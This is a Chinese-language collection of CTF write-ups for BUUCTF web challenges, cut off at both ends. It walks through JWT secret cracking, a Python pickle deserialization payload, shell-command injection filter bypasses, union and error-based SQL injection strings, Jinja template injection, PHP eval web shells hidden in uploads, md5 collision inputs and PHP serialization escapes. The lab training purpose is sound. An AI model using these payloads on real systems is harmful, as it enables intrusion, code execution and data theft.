url = 'http://b8e0235a-f240-455d-a375-9f4fb9b27e4c.node3.buuoj.cn/shop?page='

for i in range(0, 500):
    url_t = url + str(i)
    res = requests.get(url_t)
    print(i)
    if '/static/img/lv/lv6.png' in res.text:
        print("ans:%d" % i)
        break
```
找到lv6是在180页，传说中的lv6果然贵得一p，不过发现有个折扣券，并且cookie里面有很多东西，于是猜测是更改cookie修改价格或者折扣来完成购买操作的
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。  
猜测是使用反序列化漏洞读取文件。看了dalao的博客发现可以加以利用，[资料](http://www.polaris-lab.com/index.php/archives/178/)，并且还有dalao写了极为完善的[脚本](https://github.com/sensepost/anapickle/blob/master/anapickle.py)，尝试使用dalao的脚本：
```
import os
import marshal
import base64
import _pickle as cPickle
import urllib

class genpoc(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()",))

e = genpoc()
poc = cPickle.dumps(e)

print (urllib.parse.quote(poc))
```
这里要注意的是要用python2去生成，python3生成出来的东西没有办法使用qaq。  
得到flag

----
## [极客大挑战 2019]BuyFlag
首先进去又是熟悉的主页，然后我们发现header里面有一个user=0，改成user=1，提示输入password，查看源码发现有post字样，典型的加空格绕过，但是我post过后没有任何的反应？？？？  
查看wp后发现我header又是里面没有`Content-Type: application/x-www-form-urlencoded`。然后又提示我pay，于是post上去money=100000000，提示过长，数组绕过。  
得到flag

----
## [GXYCTF2019]Ping Ping Ping
打开就是一个get请求，输入`ip=127.0.0.1`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
```
发现是一个ping命令，但是fuck了空格和符号
```
ip=127.0.0.1%20     #这样会被fuck
ip=127.0.0.1$IFS$1  #这样没事
ip=127.0.0.1;       #这样没事
```
尝试使用`ip=127.0.0.1;ls`：
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
尝试使用`ip=127.0.0.1;cat$IFS$1flag.php`读取flag.php：
```
fxck your flag!
```
查看index.php
```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```
使用变量绕过`ip=127.0.0.1;q=l;w=a;e=f;r=g;t=.php;cat$IFS$9$e$q$w$r$t`。  
得到flag

----
## [ASIS 2019]Unicorn shop
打开是叫我买unicorn，然后在字符编码utf8那一行提示注意很重要。输入item为1，price不输入，发现报错`unicodedata.numeric(price)`，发现这个判断字符在unicode中是否代表数字的函数，于是到[这个网站](https://www.compart.com/en/unicode/)上搜索thousand，随便找一个大的，我选择的`ↁ`这个，输入item号，提交就行。  
得到flag

----
## [极客大挑战 2019]BabySQL
打开又是一个注入：
```
自从前几次网站被日，我对我的网站做了严格的过滤，你们这些黑客死心吧！！！
```
看上去挺强。sqlmap测试后发现被出题人嘲讽了，看来要么写tamper，要么手工注入。先测试一下关键字，发现大多是关键字被删除，我们使用`<>`来绕过（当然这里也能双写）：
```
check.php?username=admin&password=1' uni<>on sel<>ect 1,2,3%23
# 选择3位置显示

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(table_name) fr<>om info<>rmation_schema.tables wh<>ere table_schema = database()%23
# b4bsql,geekuser

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(column_name) fr<>om info<>rmation_schema.columns wh<>ere table_name = 'b4bsql'%23
# id,username,password

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(username) fr<>om b4bsql%23
#cl4y,sql,porn,git,Stop,badguy,hacker,flag

check.php?username=admin&password=1' uni<>on sel<>ect 1,2,group_concat(passwo<>rd) fr<>om b4bsql wh<>ere username='flag'%23
```
得到flag

----
## [WesternCTF2018]shrine
打开就是源码：
```
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```
发现是将flag放在了`flask`的`config`里面，并且在`render`的时候把`config`和`self`整成了`None`，看来是一个模板注入，目的是要我们换个方式查询`flask`的`config`。所以在[flask文档](https://dormousehole.readthedocs.io/en/latest/api.html#flask.Flask)里面找变量有包含`current_app`的，我们就可以读取`config`了。用burp跑一下类似`函数.__globals__`的payload，找到response中含有`current_app`的，最后我使用`{{url_for.__globals__['current_app'].config}}`  
其实这里如果没有过滤config的话，就直接`{{config}}`获取，没有过滤`self`的话也可以通过`{{self.__dict__}}`，没有过滤括号的话，还能用base object通过os读取环境变量来获得  

得到flag

----
## [SWPU2019]Web1
打开是一个登陆页面，简单测试了登录和注册没有注入，然后注册admin显示已有该用户，于是注册一个正常账户，发现是一个广告发布页面，点击发布广告，输入`#`，提示标题含有敏感词汇，于是判断是在此注入。测试发现会删除空格。然后就不知道怎么操作了，看着一大堆东西懵逼。翻了wp才知道原来要点进广告详情才会有显示的qaq。然后我们使用`/**/`绕过空格，并在最后使用单引号闭合，`order by`也是不能使用了。
```
1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```
尼玛22个字段，在此问候出题人。正当我以为已经可以注入的时候，发现`information_schema`竟然被过滤了，淦，查阅资料后发现有替代的方法：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_colum ns/**/where/**/table_schema=schema()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
本以为已经完美解决，没有想到：
```
Table 'sys.schema_auto_increment_columns' doesn't exist
```
wtf，看来得试试另一种方法，看了看innodb也是可以查到表名的：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
得到表名：
```
ads,users
```
接着无列名注入：
```
-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
得到flag

----
## [极客大挑战 2019]Upload
打开就是一个文件上传页面，看起来是想让我们来一个图片马。尝试一下test.gif：
```
GIF89
<?php>eval($_GET[cmd]);<php>
```
提示
```
your file included '<?'
```
使用`script`绕过：
```
GIF89
<script language="php">eval($_GET[cmd])</script>
```
显示上传成功，盲猜在`./upload`目录，访问显示正确，但是无法将图片解析为php，遂尝试常见后缀名:
```
.php    .php3   .phtml 
```
发现`phtml`没有被过滤，于是bp安排上。访问`upload/test.phtml`，200成功，这里如果不成功的话就要考虑使用`.user.ini`和`.htaccess`来让服务器将图片解析为php，使用菜刀连接，在根目录找到flag。

----
## [安洵杯 2019]easy_web
打开后一片黑，f12后发现图片后藏有`md5 is funny ~ `，并且观察url：
```
index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```
这个cmd就很魔性，img后面跟的是图片名称，可能会存在任意文件读取。观察img名，发现长得很像base64，遂解码：
```
TXpVek5UTTFNbVUzTURabE5qYz0=

第一层(base64)
MzUzNTM1MmU3MDZlNjc=

第二层(base64)
3535352e706e67

第三层(hex)
555.png
```
发现了一串数字，暂时不明白意思，于是尝试后面的cmd，发现常见命令被过滤。于是尝试使用img读取index.php，先加密：
```
TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
```
读取到源码：
```
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');

$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');

$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
```
发现是个md5哈希碰撞，直接找到网上的[payload](https://blog.csdn.net/qq_19980431/article/details/83018232)：
```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
接下来是绕过这个cmd的waf([更多姿势](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html))，开始先看看目录：
```
cmd=dir /
```
发现flag：
```
bin   dev  flag  lib	media  opt   root  sbin  sys  usr
boot  etc  home  lib64	mnt    proc  run   srv	 tmp  var
```
然后尝试使用变量绕过：
```
cmd=e=t;w=a;q=c;$q$w$e /flag
```
然后发现过滤了分号和$符号，shit，然后尝试另外的绕过：
```
cmd=ca\t /flag
```
得到flag

----
## [GXYCTF2019]禁止套娃
打开就在质问我的灵魂：
```
flag在哪里呢？
```
bp里面也没看见啥可疑的东西，于是盲猜`/flag.php`，然后这个东西是存在的，我们使用`dirsearch`扫一遍目录，然后发现了`.git`目录，于是使用`githack`获得源码，index.php：
```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```
第一个if是检测有无伪协议，第二个if是限制只能用函数（说好的禁止套娃），第三个if是过滤了一堆奇怪的东西。翻一下[常用函数](https://greenlightt.github.io/2017/10/25/php-function/)，找一个函数提供最基本的字符，然后使用子串切割得到我们想要的数据：
```
exp=var_dump(scandir(pos(localeconv())));
```
查看到目录：
```
[0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
```
由于flag在数组第三位，所以我们使用反向+位移：
```
exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

----
## [ACTF2020 新生赛]Include
打开后点击tips就能看见url后面添加了一个`?file=flag.php`，结合题目名称来看，是include了一个文件，猜测可以采用php伪协议读取`flag.php`查看源码：
```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```
得到flag

----
## [CISCN 2019 初赛]Love Math
打开就能看见源码：
```
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```
白名单中只留下了数学相关函数，注意到`base_convert()`函数的转换功能极其强大，可以进行任意进制转换，选择36进制即可表示所有字母（十个数字加上二十六个字母），然后使用`base_convert()`把`hex2bin`整出来，用它将16进制数转换为字符串，就可以实现任意代码执行了：
```
base_convert(37907361743,10,36) <=> hex2bin
hex2bin(dechex(1598506324))     <=> _GET
```
弄出来过后我们就要用到php的一个特性：
```
$pi=base_convert(37907361743,10,36)(dechex(1598506324))
```
这样我们就可以将`$pi`当成`_GET`来使用了：
```
$_GET[acos]&$_GET[abs]&acos=system&abs=cat%20/flag  =>  $$pi[acos]&$$pi[abs]&acos=system&abs=cat%20/flag
```
所以最终的payload为：
```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{acos})($$pi{abs})&acos=system&abs=cat%20/flag
```
得到flag

----
## [BJDCTF2020]Mark loves cat
打开看起来是个静态页面，先扫一下目录，发现有.git泄露，于是`githack`，得到index.php：
```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```
梳理程序逻辑，看上去像一个变量覆盖，回显有好几个，第一个for是将get上去的参数名当成一个变量名，保存的数据就是参数（简单点说就是把数组变量化）。第二个for是将变量的值修改为与变量的值同名的变量的值。这下思路就清晰了，大概就是将flag写入到一个exit里面，就可以回显出`$flag`：
```
GET:    yds=flag
POST:   flag=123    # 这里只需要让程序检测到有flag提交
```
得到flag

----
## [watevrCTF-2019]Pickle Store
看题目应该知道是一个反序列化，打开后发现有三个POST，bp抓包，发现session是base64编码的pickle代码：
```
gAN9cQAoWAUAAABtb25leXEBTeABWAcAAABoaXN0b3J5cQJdcQMoWBUAAABZdW1teSBzdGFuZGFyZCBwaWNrbGVxBFgVAAAAWXVtbXkgc3RhbmRhcmQgcGlja2xlcQVlWBAAAABhbnRpX3RhbXBlcl9obWFjcQZYIAAAADMyYmMxOGZkYjNjZGQwNDEzYjJkYWYwNGE4NzQ2ZjVkcQd1Lg==
```
`pickle.loads`一下：
```
{'money': 480, 'history': ['Yummy standard pickle', 'Yummy standard pickle'], 'anti_tamper_hmac': '32bc18fdb3cdd0413b2daf04a8746f5d'}
```
好了我们这下知道了，这尼玛钱竟然是存在这里面的，我们先用pickle整出来一个字典，然后base64编码，用bp改掉（这里我们改成了5000）：
```
gAN9cQAoWAUAAABtb25leXEBTYgTWAcAAABoaXN0b3J5cQJdcQMoWBUAAABZdW1teSBzdGFuZGFyZCBwaWNrbGVxBGgEaARlWBAAAABhbnRpX3RhbXBlcl9obWFjcQVYIAAAADI2MmFmYmI2NmU0N2U4MzMxMDdjNDFlNjE0MjNlOWZlcQZ1Lg==
```
结果并没有什么卵用，看来那个`anti_tamper_hmac`是防止cookie篡改的，查了一下发现这个算法强得一p，看来不是简单的改cookie。考虑pickle反序列化漏洞

----
## [GXYCTF2019]BabySQli
sql注入，测试下万能密码：
```
user=admin' or 1=1%23
```
发现被过滤。于是fuzz发现是过滤了:括号，等号。页面源码里面有一个：
```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
# 第一层是base32
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
# 第二层是base64
select * from user where username = '$name'
得到查询语句
```
尝试联合注入：
```
admin'union select 1,2,3%23
```
测试用户名所在字段：
```
name=1'union select admin,1,3#&pw=123456
->Error: Unknown column 'admin' in 'field list'
```
发现有三个字段，并且用户名在第二个字段，但显示wrong password，无其他回显，所以猜测可能是先查询到相应的用户信息，再和密码比对，翻看wp后发现竟然是md5比对，吐血：
```
name=1'union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'#&pw=123456
```
得到flag

----
## [ACTF2020 新生赛]Exec
打开是个ping，看起来是个rec，源码里面没有奇怪的东西，直接尝试多行语句：
```
127.0.0.1;ls /
```
发现flag，直接读取
```
127.0.0.1;cat /flag
```
得到flag

----
## [极客大挑战 2019]HardSQL
看题目就知道是个sql注入，而且看起来好像很吓人的样子，fuzz过后发现过滤了：
```
union ascii substr order by if 空格和一大堆逻辑运算符
```
考虑报错注入，空格用括号绕过，等号用like绕过：
```
# 爆库名 geek
username=admin'or(updatexml(1,concat(0x7e,(select(database())),0x7e),1))%23&password=123
# 爆表名 H4rDsq1
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))%23&password=123
# 爆列名 id,username,password
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23&password=123
# 读数据 flag{4d2e4d96-3b6c-4604-9675-66 (只有一部分)
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1))%23&password=123
# 读剩下的 }72835b80f066-5769-4064-c6b3-69 >=> 96-3b6c-4604-9675-660f08b53827}
username=admin'or(updatexml(1,(reverse(concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))),1))%23&password=123
```
得到flag

## [GYCTF2020]Blacklist
应该是一个注入，看起来像是随便注的升级版，先试试随便注的payload，发现果然升级了：
```
# 查表名 hahahah FlagHere
1';show tables;#

# 查列名 flag
1';show columns from `FlagHere`#

# select
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```
这下用不了随便注的重命名，预编译，改库名QWQ，查[资料](https://xz.aliyun.com/t/7169)，不过还是有个handler（mysql专属）可以用的：
```
-1';handler `FlagHere` open as a;handler `a` read first;#
```
注意里面是反引号  
得到flag

----
## [GWCTF 2019]我有一个数据库
打开：
```
我有一个数据库，但里面什么也没有~
不信你找
```
页面里面什么也没有，于是dirsearch扫：
```
403 -  316B  - /.hta
200 -   84KB - /phpinfo.php
200 -   75KB - /phpmyadmin/
200 -   36B  - /robots.txt
```
进入phpmyadmin，结果发现test表里面并没有什么东西，咕果搜索phpmyadmin漏洞，发现一个[远程文件包含漏洞](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)，直接使用payload：
```
?target=db_sql.php%253f/../../../../../../../../flag
```
得到flag

----
## [BJDCTF2020]Easy MD5
打开就是一个查询页面，在header里面发现了hint：
```
select * from 'admin' where password=md5($pass,true)
```
看起来是想让我们传入的参数进行md5后再比对，找到了[一篇文章](https://blog.csdn.net/greyfreedom/article/details/45846137):
```
password=ffifdyop
```
得到hint：
```
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```
显然是利用php弱类型，0e开头的字符串，见[文章](https://blog.csdn.net/qq_19980431/article/details/83018232)，再次得到hint：
```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```
不知道为啥哈希碰撞的方法不管用，于是使用了`error===error`:
```
param1[]=1
param2[]=2
```
得到flag

----
## [ACTF2020 新生赛]BackupFile
看名字应该是一个源码泄露或者文件备份，进入页面：
```
Try to find out source file!
```
dirsearch扫目录，index.php.bak：
```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
直接使用：
```
key=123
```
php在数字与字符串进行比较时，php会尝试转换字符串为整数，遇到第一个字母时停止：
```
echo 123=='123qqq'
1
```
得到flag

----
## [安洵杯 2019]easy_serialize_php
打开得到源码：
```
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```
理清程序逻辑：程序先将post上去的数据化为本地数据，这里给我们提供了操作session的地方，然后img_path这里将img修改了，但是程序最后要用到img，所以猜测这里就是反序列化要逃逸掉的东西。filter这个函数就是关键所在，将seriallize后的数据进行替换，但是没有对相应的长度数据进行修改，所以导致了这个反序列化的问题。另外，还在phpinfo中发现了`d0g3_f1ag.php`这个可疑文件。所以我们开始操作，我们想要的数据大概长这样：
```
_SESSION[]="s:4:"user";s:2:"dd";s:8:"function";s:10:"show_image";s:3:"img";s:20:"d0g3_f1ag.php""
```
但是img会被替换，所以要这样操作：
```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}
```
后面那个a我也不知道为啥要加上，反正不加的话就没效果（感觉是用来凑数的），还有一种方法就是换user，专业点叫键逃逸，之前那种叫值逃逸：
```
_SESSION[phpflag]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
得到路径：
```
$flag = 'flag in /d0g3_fllllllag';
```
访问：
```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"a";s:1:"a";}
```
得到flag

----
## [ACTF2020 新生赛]Upload
文件上传，测试发现前端有过滤，使用bp改文件后缀为phtml可绕过：
```
<?php eval($_POST['a']); ?>
```
得到shell

----
## [SUCTF 2019]EasyWeb
打开就能看见源码：
```
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```
程序过滤了所有的数字和字母，这就要用到一点高端知识：[无数字字母shell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)和[资料](https://www.cnblogs.com/20175211lyz/p/11488051.htm)和[资料](https://zhengbao.wang/%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97shell/)，使用字符串的异或等操作构造出来字符，太高端了，[看不懂](https://blog.csdn.net/weixin_44077544/article/details/102858790)

## [CISCN2019 总决赛 Day2 Web1]Easyweb
先扫目录：
```
200 -    6KB - /.DS_Store
403 -  322B  - /.hta
200 -    0B  - /config.php
301 -  390B  - /images  ->  http://5547d06a-fb61-43c3-aaa5-248385301404.node3.buuoj.cn/images/
200 -    2KB - /index.php
388B  - /logs  ->  http://5547d06a-fb61-43c3-aaa5-248385301404.node3.buuoj.cn/logs/
200 -   33B  - /robots.txt
403 -  331B  - /server-status
200 -   86B  - /upload.php
302 -    0B  - /user.php  ->  index.php
```
ds文件泄露，这还是第一次遇到，文件泄露[总结](http://sunu11.com/2017/04/28/11/)，访问`robots.txt`，发现里面有奇怪的东西：
```
User-agent: *
Disallow: *.php.bak
```
不允许搜索引擎爬取.bak文件，所以我们手动访问一下：
```
image.php.bak
```
得到源码：
```
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
